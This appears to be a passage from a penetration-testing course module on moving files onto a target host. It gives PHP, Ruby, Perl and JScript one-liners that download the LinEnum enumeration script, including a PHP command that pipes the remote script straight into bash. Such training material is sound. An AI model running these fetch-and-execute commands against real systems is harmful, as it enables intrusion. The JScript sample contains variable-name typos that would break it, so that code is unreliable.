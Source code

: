An alternative to `file_get_contents()` and `file_put_contents()` is the [fpopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()

  PHP Download with Fopen()

```shell-session
gdxqpardo@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```


PHP Download a File and Pipe it to Bash

```shell-session
gdxqpardo@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

#### Ruby - Download a File

  Ruby - Download a File

```shell-session
gdxqpardo@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl - Download a File

  Perl - Download a File

```shell-session
gdxqpardo@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```


JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpWeq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
Binstream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
